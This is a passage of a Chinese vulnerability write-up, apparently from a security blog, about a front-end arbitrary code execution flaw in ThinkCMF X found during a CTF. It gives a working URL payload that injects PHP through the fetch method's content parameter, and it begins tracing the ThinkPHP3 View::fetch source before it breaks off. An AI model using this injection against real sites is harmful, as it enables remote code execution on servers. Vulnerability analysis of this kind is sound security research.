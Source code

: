 > 原文链接: https://www.anquanke.com//post/id/189712 


# TinkcmfX 前台任意代码执行分析


                                阅读量   
                                **736241**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">5</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t01d4fc6b0ff41498d4.jpg)](https://p1.ssl.qhimg.com/t01d4fc6b0ff41498d4.jpg)



这个洞是今年强网杯线下时做一道叫 `yxtcms` 的 `Real World` 题时候挖到的一个`Thinkcmf X`的前台任意代码执行的 0day(赛后问了下其他队伍大多是结合本题特性和tp3的缓存getshell，并不能通杀 )， 当时做完感觉影响有限，并没在意，前天看到有其他人发出来了，但是说的很概括，那么我发一份稍微详细点的分析吧。



## Payload

开局先上payload，以强网杯那道题目为例子，：

[http://127.0.0.1/index.php/Course/Course/fetch?content=%3C?php%20phpinfo();die();](http://127.0.0.1:10080/index.php/Course/Course/fetch?content==%3C?php%20phpinfo();die();)

[![](https://i.loli.net/2019/10/26/WUiGTeskBqNgHAn.png)](https://i.loli.net/2019/10/26/WUiGTeskBqNgHAn.png)

那么具体什么情况下可以攻击呢？

`Thinkcmf` 在 `ThinkPHP3` 的基础上抽象出了四个常用`Controller` ，而这个漏洞的入口就正是其中的

`HomeBaseController`和`AdminBaseController`的`fetch`方法，也就是说只要可以访问到继承了这两个类的`Controller`，都可以直接攻击。

那么下面我们来分析一下具体漏洞成因。



## 漏洞成因

简单跟一下就可以发现其实最后执行代码的位置位于`ThinkPHP3`的内置代码

`HomeBaseController` 继承于 `AppframeController` 再继承于`ThinkPHP3`的`ThinkController`类，而`Controller`类的`fetch`方法则是来源于了`ThinkView`类， 那么我们来看一下`View`类的`fetch`方法：

```
public function fetch($templateFile='',$content='',$prefix='') `{`
        if(empty($content)) `{`
            $templateFile   =   $this-&gt;parseTemplate($templateFile);
            // 模板文件不存在直接返回
            if(!is_file($templateFile)) E(L('_TEMPLATE_NOT_EXIST_').':'.$templateFile);
        `}`else`{`
            defined('THEME_PATH') or    define('THEME_PATH', $this-&gt;getThemePath());
        `}`
        // 页面缓存
        ob_start();
        ob_implicit_flush(0);
        if('php' == strtolower(C('TMPL_ENGINE_TYPE'))) `{` // 使用PHP原生模板
            $_content   =   $content;
            // 模板阵列变量分解成为独立变量
```